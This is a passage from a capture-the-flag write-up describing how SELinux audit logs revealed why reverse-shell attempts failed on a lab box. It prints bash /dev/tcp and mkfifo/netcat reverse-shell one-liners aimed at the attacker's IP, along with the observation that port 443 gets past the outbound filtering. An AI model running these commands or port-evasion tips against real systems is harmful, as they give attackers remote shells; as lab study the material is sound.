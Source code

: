 ### SELinux

There were some SELinux rules in place that made it more difficult to get a
shell. Shoutout to Ippsec and jkr for helping me figure out the bits that I
did on SELinux.

I can look in `/var/log/audit` and find the audit logs which show where
SELinux blocked something. I can exfil these logs using the 7z script, since I
have the flag now, I can calculate the password to the zip.

#### Callbacks

When I try to run:

    
    
    bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
    

I see:

    
    
    type=AVC msg=audit(1563309265.374:709): avc:  denied  { name_connect } for  pid=2675 comm="bash" dest=9001 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:tor_port_t:s0 tclass=tcp_socket                                                    
    type=SYSCALL msg=audit(1563309265.374:709): arch=c000003e syscall=42 success=no exit=-13 a0=3 a1=138df20 a2=10 a3=7fff9f4d5860 items=0 ppid=2674 pid=2675 auid=4294967295 uid=48 gid=48 euid=48 suid=48 fsuid=48 egid=48 sgid=48 fsgid=48 tty=(none) ses=4294967295 comm="bash" exe="/usr/bin/bash" subj=system_u:system_r:httpd_t:s0 key=(null)
    type=SOCKADDR msg=audit(1563309265.374:709): saddr=020023290A0A0E080000000000000000
    type=PROCTITLE msg=audit(1563309265.374:709): proctitle=62617368002D630062617368202D69203E26202F6465762F7463702F31302E31302E31342E382F3930303120303E2631 
    

It’s blocking this because of the port, as I can see in
`object_r:tor_port_t:s0`. TCP 9001 is in fact a [tor port among other
things](https://www.speedguide.net/port.php?port=9001). If I run:

    
    
    bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
    

I get a callback and shell, no logs.

The SELinux config must allow for http ports like 443 outbound. In some
testing, only HTTP and LDAP related ports seemed to work outbound.

#### mkfifo

Similarly, when I try to run the `mkfifo` shell:

    
    
    CTF> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f
    

I get blocked and logs in audit:

    
    
    type=AVC msg=audit(1563309851.417:789): avc:  denied  { create } for  pid=2925 comm="mkfifo" name="f" scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:tmp_t:s0 tclass=fifo_file                                                               
    type=SYSCALL msg=audit(1563309851.417:789): arch=c000003e syscall=133 success=no exit=-13 a0=7fffba8e5f55 a1=11b6 a2=0 a3=7fffba8e5460 items=2 ppid=2923 pid=2925 auid=4294967295 uid=48 gid=48 euid=48 suid=48 fsuid=48 egid=48 sgid=48 fsgid=48 tty=(none) ses=4294967295 comm="mkfifo" exe="/usr/bin/mkfifo" subj=system_u:system_r:httpd_t:s0 key=(null)
    type=CWD msg=audit(1563309851.417:789):  cwd="/var/www/html"
    type=PATH msg=audit(1563309851.417:789): item=0 name="/tmp/" inode=12601314 dev=fd:00 mode=041777 ouid=0 ogid=0 rdev=00:00 obj=system_u:object_r:tmp_t:s0 objtype=PARENT cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0                   
    type=PATH msg=audit(1563309851.417:789): item=1 name="/tmp/f" objtype=CREATE cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0                                                                                                               
    type=PROCTITLE msg=audit(1563309851.417:789): proctitle=6D6B6669666F002F746D702F66
    